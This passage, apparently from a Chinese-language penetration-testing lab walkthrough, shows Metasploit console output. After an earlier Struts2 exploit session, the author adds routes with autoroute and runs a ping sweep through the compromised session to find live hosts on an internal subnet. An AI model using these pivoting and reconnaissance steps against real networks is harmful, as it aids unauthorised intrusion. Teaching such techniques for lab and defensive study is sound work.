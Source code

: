 ```metasploit
[*] Running module against 192.171.84.4
[*] Searching for subnets to autoroute.
[*] Did not find any new subnets to add.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.171.84.0       255.255.255.0      Session 2

[*] There are currently no IPv6 routes defined.
msf6 post(multi/manage/autoroute) >
```

之后的顺序应该为先进行存活验证后进行端口扫描，如此可以通过存活性筛除掉不必要的IP地址，可以让端口扫描更快速更高效，这里选择使用模块`post/multi/gather/ping_sweep`，填入必要的options之后就可以进行扫描了：

```metasploit
msf6 exploit(multi/http/struts2_multi_eval_ognl) > search ping_sweep

Matching Modules
================

   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  post/multi/gather/ping_sweep                   normal  No     Multi Gather Ping Sweep


Interact with a module by name or index. For example info 0, use 0 or use post/multi/gather/ping_sweep

msf6 exploit(multi/http/struts2_multi_eval_ognl) > use 0
msf6 post(multi/gather/ping_sweep) > options

Module options (post/multi/gather/ping_sweep):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       IP Range to perform ping sweep against.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.

msf6 post(multi/gather/ping_sweep) > set rhosts 192.171.84.2-254
rhosts => 192.171.84.2-254
msf6 post(multi/gather/ping_sweep) > set session 2
session => 2
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.171.84.2-254
[+]     192.171.84.5 host found
[+]     192.171.84.3 host found
[+]     192.171.84.4 host found
[+]     192.171.84.2 host found
[*] Post module execution completed
msf6 post(multi/gather/ping_sweep) >
```
